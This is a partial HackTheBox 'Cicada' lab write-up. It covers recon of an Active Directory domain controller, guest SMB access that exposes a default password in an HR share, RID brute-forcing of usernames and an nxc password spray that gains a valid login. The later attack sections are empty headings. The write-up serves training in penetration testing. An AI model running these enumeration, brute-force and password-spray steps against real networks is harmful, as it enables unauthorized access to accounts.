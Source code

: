 ```yaml
---
title: "HackTheBox - Cicada"
date: 2025-10-02 15:42:59 -0700
categories: [ctf, htb, RedOps, writeup]
tags: [windows, easy, active directory, smb, ldap, dns, password spray]
---
```

# tl;dr
<details><summary>Spoilers</summary>
* enumerate SMB, get file from HR share to claim a password
* enumerate users either via SMB or LDAP
</details>

# Initial Intel
* Difficulty: Easy
* OS: Windows
* Active Directory

# Attack Path

## Recon

### Service Enumeration

Let's start off with a basic TCP scan. If we can't find anything we can later run a UDP scan.

```bash
# set host & initiate a standard tcp scan
export cicada=10.10.11.35
sudo nmap -A -p- -vvv -T3 --open -oN nmap_tcp_full $cicada
```

We see quite a few services. DNS, Kerberos, SMB, and LDAP tell us this is Active Directory and likely a Domain Controller.

```bash
# Services
53/tcp - domain - Simple DNS Plus
88/tcp - kerberos-sec - Microsoft Windows Kerberos
135/tcp - msrpc - Microsoft Windows RPC
139/tcp - netbios-ssn - Microsoft Windows netbios-ssn
389/tcp - ldap - Microsoft Windows Active Directory LDAP
445/tcp - microsoft-ds?
464/tcp - kpasswd5?
636/tcp - ssl/ldap - Microsoft Windows Active Directory LDAP
3268/tcp - ldap - Microsoft Windows Active Directory LDAP
3269/tcp - ssl/ldap - Microsoft Windows Active Directory LDAP
5985/tcp - http - Microsoft HTTPAPI httpd 2.0
```

#### SMB Enumeration

I like to start with SMB first as typically you can get a ton of information and may even get some files if you are lucky.

```bash
# enum4linux-ng is a great tool to run first to get a quick overview of the SMB setup
enum4linux-ng -A $cicada
.
.
.
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
.
.
.
[+] Found domain information via SMB
NetBIOS computer name: CICADA-DC
NetBIOS domain name: CICADA
DNS domain: cicada.htb
FQDN: CICADA-DC.cicada.htb
Derived membership: domain member
Derived domain: CICADA
.
.
.
```

We've confirmed the FQDN here. It's always good practice to add the hostname to our hosts file as soon as we can to continue recon.

I use a custom function **add-host**. Link to code here.

```bash
# add host to /etc/hosts
add-host $cicada CICADA-DC.cicada.htb

# confirm name resolution
ping cicada-dc.cicada.htb
```

Now we try to further enermate SMB by checking share access. **nxc** is one of my favorite tools and I highly recommend it for SMB enumeration, as well as other supported services.

```bash
# try guest access
nxc smb $cicada -u 'guest' -p '' -M spider_plus
.
.
.
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share 
```

Guest can read two shares. HR looks promising.

```bash
# try to download all files from the HR share
smbclient "//$cicada/HR" -N -c "prompt OFF;recurse ON;mget *"
.
.
.
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (3.4 KiloBytes/sec) (average 3.4 KiloBytes/sec)
```

There was a file 'Notice from HR.txt'. Let's check for intel.

```bash
cat 'Notice from HR.txt'
.
.
.
Your default password is: Cicada$M6Corpb*@Lp#nZp!8 
.
.
.
support@cicada.htb
.
.
.
```

Nice, we got a default password. We also got a support username. Let's try to get more usernames so we can try a password spray.

```bash
# Compile found passwords to passwords.txt
# Note the single quotes around the password. Using double quotes would require you to escape the special characters
echo 'Cicada$M6Corpb*@Lp#nZp!8' >> passwords.txt
```

```bash
# bruteforce usernames via RID & output to file users_rid.txt
nxc smb $cicada -u 'guest' -p '' --rid-brute | cut -d '\' -f 2 | cut -d " " -f 1 > users_rid.txt 
.
.
.
Enterprise
Group
Read-only
Cloneable
Protected
Key
Enterprise
RAS
Allowed
Denied
CICADA-DC$
DnsAdmins
DnsUpdateProxy
Groups
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
Dev
emily.oscars
```

Many users were returned, but it's best to focus on the accounts that look like they belong to a user. We'll focus on the accounts that have the firstname.lastname naming convention. We'll also add in the 'support' user we found earlier, too.

```bash
# we compile these into a users.txt file
vim users.txt

john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
support
```

Now the password spray:
```bash
# note: this command can also be ran with a single password:
# nxc smb $cicada -u users.txt 'Cicada$M6Corpb*@Lp#nZp!8'
# additionally, we could run the cmd without the --continue-on-success flag,
# however since this is a default password we want to see if any other account uses the password.
nxc smb $cicada -u users.txt -p passwords.txt --continue-on-success
.
.
.
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\support:Cicada$M6Corpb*@Lp#nZp!8 (Guest)

```

We get a successful login with user **michael.wrightson**, and a guest session with support. Let's try to access servics as michael:

```bash
nxc smb $cicada -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -M spider_plus
.
.
.
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 


```

## Foothold

## Lateral Movement

## Privilege Escalation

## Root / SYSTEM

# Lessons Learned

